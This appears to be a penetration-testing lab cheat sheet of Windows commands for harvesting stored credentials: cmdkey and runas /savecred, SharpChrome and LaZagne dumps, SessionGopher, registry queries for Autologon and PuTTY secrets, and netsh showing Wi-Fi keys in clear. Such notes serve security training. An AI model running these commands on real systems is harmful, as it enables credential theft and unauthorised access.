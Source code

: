 ```cmd
# list saved creds in cmdkey
cmdkey /list

# if creds are saved in runas, we can use that and run commands as another user
runas /savecred /user:inlanefreight\bob "whoami"
```

```ps
# retrieving saved creds from Chrome
# using tools like SharpChrome - https://github.com/GhostPack/SharpDPAPI
.\SharpChrome.exe logins /unprotect

# if password managers are being used, we can try to get access to it
# for KeePass, .kdbx files are used, which can be cracked using keepass2john and hashcat

# if we have email systems like Microsoft Exchange
# we can search user emails for creds using the MailSniper tool - https://github.com/dafthack/MailSniper
```

```ps
# we can use tools like LaZagne - https://github.com/AlessandroZ/LaZagne
# to check creds from installed software
.\lazagne.exe -h

# run all modules
.\lazagne.exe all

# we can use tools like SessionGopher - https://github.com/Arvanaghi/SessionGopher
# to extract saved creds from remote access tools like PuTTY

# we need local admin access to fetch stored session info, but we can try with any user
Import-Module .\SessionGopher.ps1

Invoke-SessionGopher -Target WINLPE-SRV01
```

```cmd
# enumerate Autologon saved creds
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# enumerate saved PuTTY sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
# if any session is saved, this will give the key
# we can check if it has any creds saved
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

```cmd
# view saved wireless networks
netsh wlan show profile

# get saved wireless passwords - this depends on network config
netsh wlan show profile ilfreight_corp key=clear
```
